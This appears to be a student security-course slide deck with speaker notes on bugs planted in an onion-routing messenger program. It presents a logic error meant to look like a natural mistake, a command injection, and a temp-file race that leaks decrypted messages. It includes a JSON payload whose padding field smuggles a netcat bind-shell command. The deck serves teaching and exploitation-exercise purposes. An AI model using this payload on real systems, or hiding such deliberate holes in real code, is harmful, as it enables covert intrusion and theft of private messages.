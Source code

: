 ### Vulnerability and Exploitation
### (with Onion Messengers)

<br>
<br>

- TA: SeongIl Wi
- DongHyeon Oh

Note:
Hello. this is presenter DongHyeon Oh.

As you know, today subject is Vulerability and Exploitation with Onion Messegners

---

## Goals

<br>

- Logic error : anybody can make a mistake |
- Command injection : victim should not be aware |
- Privacy breach : get a sensitive data |

Note:
In this activity, I determine three goals.

First of all, anybody can make a mistake sometimes in the coding.

So I make the logic error seems to a natural mistake.

Second, if a victim was attacked by attacker, he should not be aware.

The last thing is Get a sensitive data!

---

## Scenario

- Logic error |
- Control-flow hijack(Command injection) |
- Privacy breach |


Note:
Scenario is same with Goals.

Occuring the logic error, Control flow hijacking with command injection and Privacy breach.

T_T In a broad sense, command injection is control-flow hijack

---

## Protocol

![logic1](images/logic1.png)

Note:
This is our program's protocol.

there are id and bullian. they determine the packet status.

under the this protocol table, this is the code same with protocol.


---?code=assets/logic1.cpp&lang=c++&title=Recv thread source

@[1-5](Key alive)
@[6-10](Key die)
@[11-22](Get my message)
@[50-55](Not my message. So forwarding)
@[50-57](Abnormal input go to else condition)

Note:
This is real source code.

this is key alive, key die, my message, not my message

in the not my message, work foolish.

Because this condition get all abnormal input like this one.

but exactly this program doesn't die when recv this abnormal input.

Just push in to the queue.

---?code=assets/sendthread.cpp&lang=c++&title=Logic error

@[1-15](Send Thread)
@[1-4,16-17](General input / Abnormal input)

Note:
If there is a value in the queue, this send thread could work.

And send thread encrypt a padding.

So this abnormal input also ecncrypt the padding!

---?code=assets/cmdi.cpp&lang=c++&title=Command injection

@[1-4](Send Thread)
@[6-13](Encrypt)
@[9,13](Command injection)

Note:
And this Encrypt method has a command injection attack vector.

So we can put together this Logic error and command injection.

---

## Command injection

```
{"id":"1","bullian":"192","recvip":"172.17.0.10",
"padding":"`nc -e /bin/bash -llvp 9999 1>/dev/null 2>/dev/null`"}
```

Note:
We can make this payload for command injection.

ID equal one, bullian is no matter~

and input attack payload in the padding.

---

## Get shell!

<img src="images/shell.png" width=800px height=500px>

Note:
Than we can get the shell!

Next step is Privacy breach

---

## Privacy breach

---?code=assets/privacy.cpp&lang=c++&title=pgpmanager.cpp

@[3,4,7](Make a file)
@[17,19](Delete a file)
@[7,8,17,18,19](There is a term)

Note:
This is Decrypt source code.

make a decrypt file and delete it.

And there is a term between make and delete.

So I can sniffing in this term.

---

## Demo

Note:
I am going to present Demo~

---

## Summary

- Logic error

- Control-flow hijack

- Privacy breach

---

# Q & A

---

## Appendix1

- Logic error

```
A bug in a program that causes it to operate incorrectly,
but not to terminate abnormally (or crash).

-> Send thread is operate incorrectly,
   but not to terminate abnormally!
```

---

## Appendix2

- README.md

- There are detail explanation in README.md
```
취약점 발생 원리 요약
취약점 발생 원리 상세 설명
Installation
Exploit usages
Examples
```
